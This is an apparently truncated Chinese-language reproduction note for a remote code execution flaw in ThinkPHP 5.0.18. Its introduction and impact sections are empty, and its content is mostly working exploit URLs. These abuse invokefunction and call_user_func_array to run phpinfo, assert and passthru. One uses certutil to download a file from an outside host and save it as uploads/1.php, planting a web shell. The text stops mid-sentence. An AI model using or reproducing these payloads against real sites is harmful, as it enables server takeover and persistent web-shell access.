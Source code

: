 Thinkphp 5.0.18
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

### 1、windows

    http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][0]=1
    http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=assert&vars[1][0]=phpinfo()

### 2、使用certutil

    http://www.xxxx.com/?s=admin/\think\app/invokefunction&function=call_user_func_array&vars[0]=passthru&vars[1][0]=cmd /c certutil -urlcache -split -f https://www.hack.com/xxx.js uploads/1.php

由于根目录没写权限，所
